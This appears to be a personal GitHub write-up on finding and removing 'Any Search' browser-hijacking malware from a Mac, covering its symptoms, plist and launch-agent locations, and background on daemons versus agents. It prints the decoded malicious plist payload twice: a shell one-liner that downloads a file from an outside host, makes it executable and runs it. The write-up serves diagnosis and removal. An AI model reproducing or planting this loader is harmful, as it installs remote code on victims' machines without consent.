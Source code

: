 # Any Search Malware

Recently was troubleshooting a browser issue on my Sister's laptop. Despite never having explicitly reset her Chrome browser's default search engine, it had been set to search.anysearch.net.

Looking into this took me down the rabbit hole. Here's what I found ...

Observations:

- Slow webpage loading, inspite of a stable WiFi connectopm.
- Some websites completely blocked from loading. "No Internet" message rendered.
- In *System Preferences/Network/Advanced Settings*, I could see the the SOCKS proxy setting was turned on. Switched it back on. Going back to this page I can see that it's been turned on.
- Suspicious profiles set in *System Preferences/Profiles*
- Suspicious plist files in 


- *com.FEE56CE7.09A9.43F1.8B77.FDDB6B8323B5.plist* contains base64 obsfucated code that evaluates to this:
  - `tmp="$(mktemp /tmp/XXXXXXXX)"; curl --retry 5 -f "http://api.processerfilter.com/plg?u=7F94125F-B398-516C-952D-CBC0071EEAEF" -o "${tmp}"; if [[ -s "${tmp}" ]]; then chmod 777 "${tmp}"; "${tmp}"; fi; rm "${tmp}" | /bin/zsh`
  - These URL links give more info. First link suggests that it is malicious:      
    - https://hybrid-analysis.com/sample/ae0c9fbf1b12dbb76e4c2e891a7cb36025b93137e6d36b27487794825e4c9203?environmentId=100
    - https://www.threatcrowd.org/domain.php?domain=api.processerfilter.com

- Followed these steps outline in this website [any-search-removal](https://www.pcrisk.com/removal-guides/11494-searchanysearchcom-redirect-mac) to remove this malware from the laptop
  - These involved search for and removing suspicous files in and `/Library/LaunchAgents`, `~/Library/LaunchAgents`, and `/Library/Application Support`. Note that no files were found in `~/Library/LaunchAgents`. Flles that were found have been included in this directory.
  - 

- Found loads of suspect executables in `/Library/Application Support` and `~/Library/Application Support`. 
  - Deleted them, didn't try to analyse them.
  - This one stood out as the most suspicious to me:
    - `/Library/Application Support/com.TotalProjectSearchDaemon/TotalProjectSearch` (a UNIX executable)

- What is a PLIST file?
  - A PLIST file is a settings file, also known as a "properties file," used by macOS applications. It contains properties and configuration settings for various programs. PLIST files are formatted in XML and based on Apple's Core Foundation DTD.

- Laucn Daemons vs Launch Agents
  - Unix-based operating systems have daemons or computer programs that run as a background process and not directly under the interactive user’s session. This is a boon for admins as they can leverage daemons to perform any series of tasks and is particularly useful when paired with repetitive maintenance tasks that run on a schedule. By setting up daemons to perform these tasks, admins can ensure that these programs run automatically at the system level, so as not to be interrupted by user sessions or input.
  - Agents share a great deal of similarity with daemons in that they both run computer programs in an automated fashion on target devices. However, daemons execute these tasks at the system-level, while agents execute these tasks within the context of the user’s interactive session. Both are useful and powerful in their own right, but each has its own specific use cases and should be treated as such to prevent tasks that rely on system-level access from being executed in the user’s space where they may not have the necessary rights to perform the tasks properly.
  - https://www.techrepublic.com/article/macos-know-the-difference-between-launch-agents-and-daemons-and-use-them-to-automate-processes/

## Cool finding

- *com.FEE56CE7.09A9.43F1.8B77.FDDB6B8323B5.plist* contains obsfucated code that evaluates to this:
  - `tmp="$(mktemp /tmp/XXXXXXXX)"; curl --retry 5 -f "http://api.processerfilter.com/plg?u=7F94125F-B398-516C-952D-CBC0071EEAEF" -o "${tmp}"; if [[ -s "${tmp}" ]]; then chmod 777 "${tmp}"; "${tmp}"; fi; rm "${tmp}" | /bin/zsh`
  - These URL links give more info. First link suggests that it is malicious:      
    - https://hybrid-analysis.com/sample/ae0c9fbf1b12dbb76e4c2e891a7cb36025b93137e6d36b27487794825e4c9203?environmentId=100
    - https://www.threatcrowd.org/domain.php?domain=api.processerfilter.com
